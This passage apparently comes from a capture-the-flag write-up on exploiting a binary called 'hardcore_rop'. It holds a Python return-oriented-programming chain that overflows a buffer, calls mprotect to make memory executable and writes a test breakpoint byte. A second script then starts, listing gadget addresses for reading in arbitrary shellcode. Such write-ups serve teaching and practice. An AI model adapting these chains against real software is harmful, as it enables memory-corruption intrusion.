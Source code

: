 ```python

# seed value
payload += "0347\n"

# overflow buffer
payload += "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# syscall number 125 in eax (mprotect)
payload += p(BASE + popeax)
payload += p(125)

# pointer to memory region in ebx
payload += p(BASE + popebx)
payload += p(BASE)

# memory flags PROT_READ | PROT_WRITE | PROT_EXEC
payload += p(BASE + popedx)
payload += p(7)

# length in ecx, needs to be multiple of 2
payload += p(BASE + popecx)
payload += p(0x1000)

# call syscall int 0x80
payload += p(BASE + int80h)

# stage2 test
# edi = 0xf000000
payload += p(BASE + popedi)
payload += p(BASE)
# edx = 0xcccccccc (four times int 0x3)
payload += p(BASE + popedx)
payload += p(0xcccccccc)
# RET: 0x0002770: mov [edi], dh; ret
payload += p(BASE + 0x0002770)
# return to 0xf000000, which should contain an int 0x3
payload += p(BASE + popedx + 1)
payload += p(BASE)

print payload
## Usage: $ python ropsploit.py | ./hardcore_rop `pwd`
```

After running this first POC, the binary indeed crashed with a SIGTRAP error! Inspection of the core dump with `gdb` showed that the first byte of `0xf000000` was a `0xcc`, so this worked! 

Writing the shellcode one byte at a time seemed tedious. Furthermore, the ROP chain has a maximum of 555 bytes, so a more flexible way was to use `syscall_read`. This will allow us to read in arbitrary shellcode. All the necessary gadgets were present:

```python
#!/usr/bin/python

import time, struct

BASE = 0xf000000
popeax = 0x000913f
popecx = 0x0003c7e
popedx = 0x0002393
popebx = 0x000964d
popedi = 0x0000569
int80h = 0x0000d64
int03h = 0x0001b11

```